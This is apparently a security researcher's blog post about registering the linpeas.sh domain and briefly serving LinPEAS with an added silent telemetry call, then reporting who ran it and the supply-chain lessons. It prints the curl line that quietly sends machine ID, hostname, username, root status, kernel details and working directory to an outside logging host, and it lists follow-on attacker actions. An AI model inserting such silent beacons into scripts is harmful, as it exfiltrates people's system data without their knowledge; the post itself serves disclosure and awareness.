






# A LinPEAS Saga: From Enumeration to Exposure

# Introduction

If you work in offensive security, there are a handful of tools you almost don’t think about anymore. You’ve typed their names a hundred times, bookmarked the repos, copied snippets into notes, and pulled them down mid-engagement without a second thought.

LinPEAS is one of those tools.

What started as a curiosity about how browsers treat certain file names ended up touching live infrastructure, real engagements, and a much wider conversation about trust, tooling, and supply chain risk than I ever expected.

# The Origin Story: The Browser Bar Habit

During university and early in my career, I kept running into a small but irritating problem.

When I tried to search for tools like [LinEnum.sh](http://linenum.sh/) or [LinPEAS.sh](http://linpeas.sh/), my browser wouldn’t search at all. It would try to navigate to them as if they were websites, sending me straight to a domain that didn’t exist.

That behaviour is expected. `.sh` is a valid top-level domain, not just shorthand for a shell script. To a browser, `linpeas.sh` looks like a perfectly reasonable URL, not a search term.

At first, it was just annoying. I wanted documentation or a GitHub repository and instead got a DNS lookup. But once you notice it, you can’t unsee it. If I was accidentally navigating to a non-existent domain just by trying to look up a well-known tool, plenty of other people probably were too.

That’s when the thought shifted slightly. If someone did own that domain, what would happen next?

The domains [`LinEnum.sh`](http://LinEnum.sh) and [`linpeas.sh`](http://linpeas.sh) were available, so my colleague registered one, and I registered the other. It felt like a harmless, almost defensive move. Better that they were owned by someone in the community than left open for someone else to take advantage of.

I didn’t think much beyond it being a browser annoyance. Only later did it become obvious that it was an attack path sitting just outside the terminal.

# Phase 1: The Good Samaritan

At the start, there was no interest in collecting data or proving a point. The goal was much simpler: stop people doing something silly, and maybe make them think twice next time.

From the very first commit, the site included a JavaScript warning. If someone tried to copy code from the page, it triggered an alert explaining that this wasn’t the official source and that blindly copying code from random domains was a bad idea.

```jsx
$(document).ready(function() {
  $("textarea").bind('copy', function(e) {
    alert("You just copied this script without even checking if you're on the correct website...\nBe more careful!\nhttps://twitter.com/hattonsec");
  });
});
```


The idea was simple: give people a moment of panic. Not to shame them, just to interrupt the muscle memory. And it worked more than I expected. I had people I’d known for years message me privately to admit they’d fallen straight into it without thinking.

That setup stayed in place for years. Right up until November 2024, [`linpeas.sh`](http://linpeas.sh/) was seeing roughly 6.4k unique monthly visitors and around 58k total requests. All of that traffic, and all it ever did was show a warning and trigger the occasional uncomfortable realisation.



But once you know that volume exists, curiosity starts to creep in. If that many people were reaching the domain accidentally, what exactly were they doing when they got there?

That question is what pushed this from a gentle warning into something else entirely.

# Phase 2: The Pivot to Research

By late 2024, I was actively looking for something worth turning into a conference talk. A few colleagues suggested that the [`linpeas.sh`](http://linpeas.sh/) domain itself might be more interesting than I was giving it credit for.

Around the same time, I noticed something else that changed how I thought about the domain. For a period, `linpeas.sh` was the top result on Google when searching explicitly for `linpeas.sh`, and as of writing this post, it still is.

That meant this wasn’t just people mistyping a URL or hitting enter in the address bar. The domain was actively being surfaced as the primary reference point for the tool.

I took a proper look at the analytics. By that point, the domain had been sitting there since mid December 2020, quietly doing nothing more than showing a warning through a JavaScript alert. Despite that, it was still pulling in thousands of visitors every month, with a steady background level of traffic.

The consistency made it clear this wasn’t accidental.

So I made a conscious decision to change the site. In mid to late November 2024, I removed the warning banner and left the legitimate LinPEAS code in place, adding a single telemetry call alongside it.

The script itself didn’t change in any meaningful way. There was no additional functionality, no payload, no logic beyond what was already there. The only difference was that instead of interrupting people with a warning, it quietly recorded a small amount of contextual information about how and where it was being run.

I wasn’t trying to hide what I was doing. The code wasn’t obfuscated, and the site itself was hosted on GitHub Pages. Anyone could view the repository, inspect the commit history, and see exactly when the change was made and what it did.

# The Technical Design and Telemetry

The entire experiment hinged on a single line added to the script.

```bash
curl -s "https://log.linpeas.sh/?uuid=$(cat /proc/sys/kernel/random/uuid)&id=$(cat /var/lib/dbus/machine-id)&root=$IAMROOT&hostname=$(hostname)&user=$(whoami)&uname=$(uname -a | base64 -w 0)&cwd=$(pwd | base64 -w 0)" > /dev/null 2>/dev/null
```

That was it. No callbacks, no payloads, no logic based on the response. The request fired silently and the script continued exactly as it always had.

The curl command ran in silent mode, suppressing output entirely, and sent a single HTTP request to the logging endpoint with a small set of explicit parameters:
- uuid: A randomly generated UUID read from `/proc/sys/kernel/random/uuid`. This was not intended to uniquely identify a host over time, just to distinguish individual executions.
- id: The system machine ID from `/var/lib/dbus/machine-id`, which often persists across reboots and can uniquely identify a host.
- root: The value of the `IAMROOT` environment variable, set earlier in the script, indicating whether LinPEAS believed it was running with root privileges.
- hostname: The system hostname at execution time.
- user: The username of the current user running the script.
- uname: The output of `uname -a`, base64 encoded to avoid breaking the URL, providing kernel version, architecture, and OS details.
- cwd: The current working directory from which the script was executed, also base64 encoded.

There was no attempt to disguise what this was doing. The code was visible, the parameters were readable, and the site itself was hosted on GitHub Pages so the commit history was public.

On the receiving end, the setup was intentionally minimal.

Traffic for `linpeas.sh` was already routed through Cloudflare. I added a subdomain, `log.linpeas.sh`, and attached a Cloudflare Worker to it. The Worker acted as a thin logging layer and did nothing beyond serialising request metadata Cloudflare already provided.

At its core, it looked like this:

```jsx
addEventListener('fetch', event => {
  event.respondWith(handleRequest(event.request));
});

async function handleRequest(request) {
  const headers = [...request.headers].reduce((acc, [key, value]) => {
    acc[key] = value;
    return acc;
  }, {});

  const cfDetails = request.cf || {}; 

  const logData = {
    request: {
      url: request.url,
      method: request.method,
      ip: headers["cf-connecting-ip"] || null,
      geo: {
        country: cfDetails.country || null,
      },
      asn: cfDetails.asn || null,
    },
    event: {
      timestamp: new Date().toISOString(),
    },
  };

  console.log(JSON.stringify(logData));
  return new Response(null, { status: 204 });
}
```

Every execution resulted in a single structured log entry containing the request URL, basic metadata, the source IP as seen by Cloudflare, and coarse geolocation derived from that IP. There was no fingerprinting, no cookies, and no attempt to correlate activity beyond what the request itself contained.



Cloudflare only retains these logs for a short period, so I configured a Logpush job to stream them into an AWS S3 bucket for longer-term storage. Logs were written as compressed objects, exactly as Cloudflare emitted them. The bucket was used as passive storage only. I also set up an SNS topic to notify me via email when new log objects arrived, which became noisy very quickly once volume picked up.

What stood out was the amount of context that single request exposed.

# The Findings

All of the observations below came from roughly 230 meaningful executions over a two-week window, between 15 November and 29 November 2024. This wasn’t long-term monitoring (although I did plan it to be), it was a short burst, and the data accumulated very quickly.

The data was reviewed purely to understand patterns of execution and environment type. No attempts were made to identify organisations or pursue individual systems.

The data fell into a few very clear buckets.

## Root execution showed up early and often

One of the most consistent signals was how frequently the script was being executed with full root privileges.

Examples included:

- Execution from `/root` and other privileged home directories
- Root shells on Kali, Parrot, Debian, Ubuntu, and cloud images
- Enumeration being run immediately post-access, without any sign the script had been reviewed first

Fetching and executing a remote script as root appeared to be routine behaviour rather than an exception.

## Active penetration testing activity

Some executions stood out due to their structure rather than their volume.

These were identifiable through:

- Engagement-style working directories, most notably `/home/hardening-pentest` and `/home/pentest`
- Hostnames and filesystem layouts consistent with prepared test environments
- Repeated use from the same systems across a short period

The execution patterns and directory structure matched what you would expect during live assessment work.

## Already-compromised web servers

Another clear cluster came from web service accounts.

Typical indicators included:

- Execution as `www-data`
- Working directories under `/var/www/html`, `/var/www/<site>/`, and shared hosting layouts
- Repeated enumeration from the same hosts

In several cases, the same systems appeared multiple times, consistent with post-exploitation activity. These machines were pulling and executing a script from an external domain purely because the name was familiar.

## Production infrastructure

Some entries were immediately recognisable as live systems rather than disposable environments.

Indicators included:

- Long-lived kernels and older Debian releases
- Cloud instances and shared hosting providers
- Stable hostnames and directory layouts
- Geographic distribution consistent with production deployments

These systems had no obvious reason to be making outbound requests during enumeration, yet they were.

## Lab environments and training setups

A significant portion of the executions matched what you would expect from learning environments and practice setups.

Common characteristics were:

- Kali and Parrot hosts
- Paths like `/home/kali/Downloads`, Desktop folders, and `/tmp`
- CTF, TryHackMe, Hack The Box, and WSL artefacts
- Multiple executions from the same machine over short time windows

This category aligned closely with how most people practise and experiment, and wasn’t particularly surprising.

# What this could have been

Had this domain been controlled by a malicious actor, each execution would have represented arbitrary code execution on the target host, often with elevated privileges. In many cases, that would have amounted to full system compromise, not just passive data exposure.

At that point, an attacker could have:

- Executed follow-on payloads as root, including installing persistence mechanisms such as systemd services, cron jobs, or modified login scripts
- Established outbound command-and-control channels over HTTPS or DNS, blending into normal egress traffic
- Deployed credential harvesters or memory scraping tools to capture passwords, SSH keys, and cloud credentials
- Pivoted laterally from already-compromised web servers or test hosts into adjacent internal systems
- Selectively targeted production infrastructure while ignoring lab or training environments to reduce noise and detection
- Maintained long-term access by backdooring commonly used tooling rather than the host itself

The speed and volume of execution showed that this level of access could have been achieved immediately and at scale, without exploiting a vulnerability or drawing attention.

# The Aftermath: RIP [LinPEAS.sh](http://linpeas.sh/)

In late November, I attended the Hack The Box UK meetup in Cheltenham. Over the course of the evening, I mentioned the project to a few people in conversation. It wasn’t a formal talk, just explaining what I’d been looking at and why I thought it was interesting.

That was enough.

Not long after, a LinkedIn post went live. From there, people started talking about it more widely. Some responses were sensible and measured. Others were less so. A few people immediately labelled it a backdoor, despite the code being visible, trivial, and doing exactly what it said on the tin.


One person went as far as tagging my employer and the NCSC in a tweet, calling for it to be investigated.



That tweet led directly to a phone call from my boss. The message was short and clear. Whatever the original intent, this was now causing the wrong kind of attention, and it was time to call it a day.

The telemetry was removed immediately and the logging endpoint disabled. There was no attempt to defend it, justify it, or continue collecting data. The point had been proven, and the risk now outweighed any remaining value.

I left the domain online, but replaced the content entirely with the “Chill Guy” meme that was doing the rounds at the time.



That decision was partly humour, partly signalling. It made it clear this wasn’t a malicious operation, just a security researcher who had wandered into an uncomfortable corner of trust and habit. That change was generally received well, and the temperature dropped a bit once people realised there was no ongoing collection.

By that point, the data itself had become useless anyway. The logging endpoint quickly started attracting noise. Fake requests, spam, and deliberately crafted entries replaced anything meaningful. Whatever insight there was to gain had already been gained.

The story carried on circulating regardless. It showed up on blogs, social media threads, and YouTube videos. Not because of the code, but because of what it demonstrated.

That was the point where [`linpeas.sh`](http://linpeas.sh/), as an experiment, was effectively dead.

# The Takeaway

Nothing in this story relied on a vulnerability, an exploit, or any clever trickery. The human behaviour was already there.

A familiar tool name, a valid domain, and a habit that’s been normalised over years did all the work.

If there’s a lesson here, it’s not “don’t trust open source” or “don’t use community tools”. It’s that trust often gets applied far too early, and far too implicitly.

A few simple changes would have prevented every single one of the issues described above:

- Treat domains as hostile by default, especially when they look like file names
- Download tools from their official repositories and take a moment to read them
- Be conscious of where you’re running enumeration from, and what outbound traffic it might generate

None of that is new advice. It’s just advice that’s easy to ignore when you’re in a hurry and the tool feels familiar.

As of publishing this post, the domain no longer serves any content of its own. Requests to `linpeas.sh` now redirect directly to the official LinPEAS GitHub repository. The intention is simply to remove any remaining ambiguity and make sure the domain points to the correct source.

# Further reading

- [Sekurak – analysis of pentester habits and trust assumptions](https://sekurak.pl/jak-mozna-bylo-przejac-tysiace-urzadzen-z-systemem-linux-czyli-o-niefrasobliwych-nawykach-pentesterow/)
- [Damjan Ilic – LinPEAS.sh awareness campaign write-up](https://medium.com/@damjanilic/linpeas-sh-used-for-a-cyber-awareness-campaign-22aa9a311aae)
- [Hacknshare – caution during cybersecurity engagements](https://hacknshare.com/posts/caution-during-cybersecurity-engagements/)
- [WatchTowr Labs – commentary on trust and backdoors](https://labs.watchtowr.com/more-governments-backdoors-in-your-backdoors/)
- [TheCyberMentor – YouTube discussion of the incident](https://www.youtube.com/shorts/0SIGNxW_RwM)